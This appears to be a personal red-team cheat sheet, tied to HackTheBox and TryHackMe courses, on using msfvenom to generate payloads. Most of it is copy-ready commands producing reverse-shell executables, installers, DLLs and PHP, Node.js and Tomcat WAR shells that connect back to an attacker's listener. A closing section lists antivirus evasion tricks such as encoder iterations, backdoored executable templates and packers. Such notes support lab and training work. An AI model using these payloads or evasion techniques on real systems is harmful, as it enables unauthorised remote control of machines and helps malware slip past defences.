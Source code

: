 # 🐍 msfvenom 🐍

[![shells_and_payloads](../../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![metasploitexploitation](../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-lg-2"><div>

msfvenom is a tool of the [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) framework to generate payloads for reverse shells. We can customize payloads according to:

* 🎠 the program executing the payload <small>(PHP, python...)</small>
* 🏡 the target operating system
* 🛡️ the presence and configuration of a firewall
* 🔫️ the presence and configuration of an antivirus
* ...

```ps
$ msfvenom --list payloads
$ msfvenom --list payloads | grep meterpreter
```
</div><div>

msfvenom is often used with the [msfconsole](/cybersecurity/red-team/tools/frameworks/metasploit/_files/msf_handler.md) to catch them and pop a meterpreter shell <small>(see Metasploit framework, in short, an upgraded shell)</small>.

Metasploit separated **staged** payloads from **inline** payloads. The former is involving two steps: a simple payload <small>(called stage/stager)</small> is sent, which then request the rest of the payload. They are mainly used when there is a restriction on the size of the payload.

In Metasploit, the `_` is replaced with a `/` for staged payloads.

* `php/meterpreter_reverse_tcp`: inline/single
* `php/meterpreter/reverse_tcp`: staged
</div></div>

<hr class="sep-both">

## 🐸 Common options 🐸

<div class="row row-cols-lg-2"><div>

**-p** to define the payload to use.

```ps
$ msfvenom -p cmd/unix/reverse_netcat [...]
```

**LHOST/LPORT** to define where the target will connect back.

```ps
$ msfvenom [...] LHOST=tun0 LPORT=4444
```

**-f** to define the format of the output. For instance, raw code.

```ps
$ msfvenom [...] -f raw
$ msfvenom [...] R # same for -f RAW
```
</div><div>

**-e** to define the encoding. It's mainly used to bypass firewall or reduce the size of the payload.

```ps
$ msfvenom [...] -e php/base64
```
</div></div>

<hr class="sep-both">

## 📌 Some payloads 📌

All examples are asking the target to connect back to `tun0` IP at the port `4444`.

<div class="row row-cols-md-2 mt-3"><div>

* **Linux** (.elf / ...)

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (RAW) opening a reverse shell with netcat
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 -f raw
```

* **Windows** (.exe / .msi / ...)

```bash
# Generate a .exe opening a reverse shell (TCP)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
# Generate a malicious installer (msi)
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f msi -o shell.msi
# Generate a malicious dynamic library (DLL)
$ msfvenom -p windows/x64/exec cmd='<some command>' -f dll -o malicious.dll
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f dll -o malicious.dll
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

* **PHP**

```bash
# very unstable shell, not recommended
$ msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o revshell.php
# meterpreter
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o revshell.php
```

* **Tomcat**

```bash
# works with Tomcat 7.8
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war -o revshell.war
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Payload Encoding: make the payload comptabible with different architectures and help with antivirus evasion.

* Shikata Ga Nai (SGN): good but still detected by modern antivirus. `-e x86/shikata_ga_nai`
* Use iterations to make it harder to detect: `-i 10`
* Password-protected archives are an additional antivirus evasion technique
* backdoored executable: use executable templates to hide the code
* Packers are also an alternative: [polypack](https://jon.oberheide.org/files/woot09-polypack.pdf)
</div><div>

Other options:

* `-a x86`: explicit architecture
* `--platform windows`: explicit platform
* `-k`: with backdoored executable, the original executable still runs as it was. If started from a terminal, a new terminal will (still) pop.
* `-x xxx.exe`
* `-o xxx.exe`

Test on Virus Total: `msf-virustotal -k <API key> -f xxx.exe`
</div></div>